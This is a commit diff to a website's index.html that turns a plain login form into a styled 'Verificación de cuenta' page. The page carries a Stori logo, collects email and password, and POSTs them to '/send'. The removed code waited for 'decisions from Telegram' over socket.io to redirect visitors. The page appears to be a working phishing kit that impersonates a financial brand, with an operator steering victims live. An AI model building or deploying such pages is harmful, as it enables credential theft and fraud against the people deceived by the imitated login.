

Before and after one commit to shemaj66166/klar, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-916 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; no server answers; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -1,62 +1,162 @@
 <!DOCTYPE html>
 <html lang="es">
 <head>
-  <meta charset="UTF-8">
-  <title>Formulario de acceso</title>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0" />
+  <title>Inicio de Sesión</title>
+  <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/@fortawesome/fontawesome-free/css/all.min.css">
+  <link href="https://fonts.googleapis.com/css2?family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
+  <style>
+    body {
+      margin: 0;
+      font-family: 'Open Sans', sans-serif;
+      background: #f3f6f9;
+      display: flex;
+      align-items: center;
+      justify-content: center;
+      min-height: 100vh;
+    }
+
+    .screen {
+      display: flex;
+      flex-direction: column;
+      align-items: center;
+      background: #fff;
+      padding: 2rem;
+      border-radius: 1rem;
+      box-shadow: 0 8px 30px rgba(0, 0, 0, 0.1);
+      width: 90%;
+      max-width: 400px;
+      text-align: center;
+    }
+
+    .logo {
+      width: 100px;
+      margin-bottom: 1rem;
+    }
+
+    .input-group {
+      display: flex;
+      align-items: center;
+      background: #f0f2f5;
+      border-radius: 8px;
+      margin: 1rem 0;
+      padding: 0.5rem 1rem;
+      width: 100%;
+    }
+
+    .input-group .icon {
+      color: #888;
+      margin-right: 0.5rem;
+    }
+
+    .input-group input {
+      border: none;
+      background: transparent;
+      outline: none;
+      flex: 1;
+      font-size: 1rem;
+    }
+
+    button {
+      background: #00b67a;
+      color: white;
+      padding: 0.75rem 2rem;
+      border: none;
+      border-radius: 50px;
+      font-weight: 600;
+      cursor: pointer;
+      margin-top: 1rem;
+      transition: background 0.3s;
+    }
+
+    button:hover {
+      background: #00a16a;
+    }
+
+    .mensaje-error {
+      color: red;
+      margin-top: 0.5rem;
+      font-size: 0.85rem;
+    }
+
+    .campo-requerido {
+      border: 1px solid red !important;
+    }
+  </style>
 </head>
 <body>
-  <h1>Login</h1>
-  <form id="loginForm">
-    <label>Usuario:</label><br>
-    <input type="text" name="usuario" required><br>
-    <label>Contraseña:</label><br>
-    <input type="password" name="clave" required><br><br>
-    <button type="submit">Enviar</button>
-  </form>
+  <div class="screen">
+    <img src="https://i.imgur.com/GFGp9I7.png" alt="Stori Logo" class="logo">
+    <h2>Verificación de cuenta</h2>
+    <p>Ingrese su correo y contraseña para continuar</p>
 
-  <div id="respuesta" style="margin-top:20px; display:none;">
-    <p>Esperando respuesta desde Telegram...</p>
+    <!-- Correo -->
+    <div class="input-group">
+      <div class="icon"><i class="fas fa-envelope"></i></div>
+      <input type="email" id="email" placeholder="Correo electrónico" required>
+    </div>
+    <p id="emailError" class="mensaje-error"></p>
+
+    <!-- Contraseña -->
+    <div class="input-group">
+      <div class="icon"><i class="fas fa-lock"></i></div>
+      <input type="password" id="password" placeholder="Contraseña" required>
+    </div>
+    <p id="passwordError" class="mensaje-error"></p>
+
+    <button onclick="validarDatos()">Continuar</button>
   </div>
 
   <script>
-    const form = document.getElementById('loginForm');
-    const respuesta = document.getElementById('respuesta');
+    async function enviarADestino(email, password) {
+      const res = await fetch("/send", {
+        method: "POST",
+        headers: {
+          "Content-Type": "application/json"
+        },
+        body: JSON.stringify({
+          email,
+          password
+        })
+      });
+      const data = await res.json();
+      console.log("Respuesta:", data);
+    }
 
-    form.addEventListener('submit', async (e) => {
-      e.preventDefault();
-      const datos = new FormData(form);
-      const json = {
-        usuario: datos.get('usuario'),
-        clave: datos.get('clave')
-      };
+    function validarDatos() {
+      const email = document.getElementById("email").value;
+      const password = document.getElementById("password").value;
+      const emailError = document.getElementById("emailError");
+      const passwordError = document.getElementById("passwordError");
 
-      await fetch('/enviar', {
-        method: 'POST',
-        headers: {
-          'Content-Type': 'application/json'
-        },
-        body: JSON.stringify(json)
-      });
+      let valido = true;
+      emailError.textContent = "";
+      passwordError.textContent = "";
 
-      form.style.display = 'none';
-      respuesta.style.display = 'block';
-    });
+      const emailRegex = /^[^\\s@]+@[^\\s@]+\\.[^\\s@]+$/;
+
+      if (!email) {
+        emailError.textContent = "Correo obligatorio";
+        valido = false;
+      } else if (!emailRegex.test(email)) {
+        emailError.textContent = "Correo inválido";
+        valido = false;
+      }
+
+      if (!password) {
+        passwordError.textContent = "Contraseña obligatoria";
+        valido = false;
+      } else if (password.length < 4) {
+        passwordError.textContent = "Mínimo 4 caracteres";
+        valido = false;
+      }
+
+      if (valido) {
+        enviarADestino(email, password);
+        alert("Datos enviados correctamente");
+      }
+    }
   </script>
- <script src="/socket.io/socket.io.js"></script>
-<script>
-  const socket = io();
-
-  // Escucha las decisiones que llegan desde Telegram
-  socket.on('decision', (data) => {
-    console.log('✅ Acción recibida:', data);
-
-    // Redirige según la URL recibida
-    if (data.url) {
-      window.location.href = data.url;
-    }
-  });
-</script>
-
-
 </body>
 </html>
```
